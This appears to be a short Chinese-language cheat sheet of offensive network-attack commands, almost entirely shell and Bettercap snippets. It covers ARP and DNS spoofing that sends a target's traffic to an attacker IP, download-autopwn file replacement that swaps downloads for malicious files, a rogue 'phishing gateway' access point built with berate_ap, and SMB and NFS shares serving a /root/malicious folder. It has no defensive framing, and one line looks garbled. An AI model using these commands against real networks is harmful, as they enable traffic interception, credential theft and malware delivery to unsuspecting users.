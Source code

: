### 流量劫持

Bettercap

```bash
set arp.spoof.targets 目标IP地址
set arp.spoof.fullduplex true
arp.spoof on
set dns.spoof.domains example.com
set dns.spoof.address 攻击者IP地址
dns.spoof on
net.sniff on
dns.spoof off
```

### 文件替换

Bettercap

```bash
set arp.spoof.targets 目标IP地址
arp.spoof on
net.sniff on
download-autopwn/download-autopwn
```

ls > /usr/share/bettercap/caplets/download-autopwn/

### 钓鱼网关

```bash
apt install berate-ap
berate_ap -w 2 wlan0mon 网络接口 AP名 密码
```

### 网络共享

1. SMB文件共享

```bash
impacket-smbserver -username snowwolf -password 123qwe snowwolf /root/malicious/
smbclient //IP地址/snowwolf -U snowwolf
```

2. NFS

```bash
apt-get install nfs-kernel-server nfs-common
```

/etc/exports:

```bash
/root/malicious *(rw,sync,no_subtree_check)
```

```bash
systemctl restart nfs-kernel-server
showmount -e IP地址
mkdir -p /mnt/nfs_share
mount IP地址:/root/malicious /mnt/nfs_share
```
